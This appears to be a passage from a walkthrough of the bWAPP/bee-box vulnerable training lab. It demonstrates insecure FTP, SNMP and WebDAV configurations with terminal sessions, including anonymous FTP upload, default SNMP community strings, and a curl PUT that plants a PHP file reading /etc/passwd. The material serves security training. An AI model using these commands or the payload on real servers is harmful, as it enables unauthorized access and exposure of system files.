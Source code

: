 ### 💀  Insecure FTP Configuration 💀

Anonymous login with write permissions are enabled

```
$ ftp 192.168.1.9
Connected to 192.168.1.9.
anonymous
220 ProFTPD 1.3.1 Server (bee-box) [192.168.1.9]
Name (192.168.1.9:dean): 331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||42936|)
150 Opening ASCII mode data connection for file list
-rw-rw-r--   1 root     www-data   543803 Nov  2  2014 Iron_Man.pdf
-rw-rw-r--   1 root     www-data   462949 Nov  2  2014 Terminator_Salvation.pdf
-rw-rw-r--   1 root     www-data   544600 Nov  2  2014 The_Amazing_Spider-Man.pdf
-rw-rw-r--   1 root     www-data   526187 Nov  2  2014 The_Cabin_in_the_Woods.pdf
-rw-rw-r--   1 root     www-data   756522 Nov  2  2014 The_Dark_Knight_Rises.pdf
-rw-rw-r--   1 root     www-data   618117 Nov  2  2014 The_Incredible_Hulk.pdf
-rw-rw-r--   1 root     www-data  5010042 Nov  2  2014 bWAPP_intro.pdf
226 Transfer complete
ftp> puts test.txt
?Invalid command.
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||28299|)
150 Opening BINARY mode data connection for test.txt
     0        0.00 KiB/s
226 Transfer complete
ftp> ^D
221 Goodbye.
```

### 💀  Insecure SNMP Configuration 💀

Default community strings are set on the machine

```
$ snmpwalk -v2c -c private bwapp-server
$ snmpwalk -v2c -c public bwapp-server
```

### 💀  Insecure WebDAV Configuration 💀

```
curl -X PUT --data '<?php $f=fopen("/etc/passwd","r"); echo fread($f,filesize("/etc/passwd")); fclose($f); ?>' 'http://192.168.1.10/webdav/attack.php'
```

# A6 - Sensitive Data Exposure
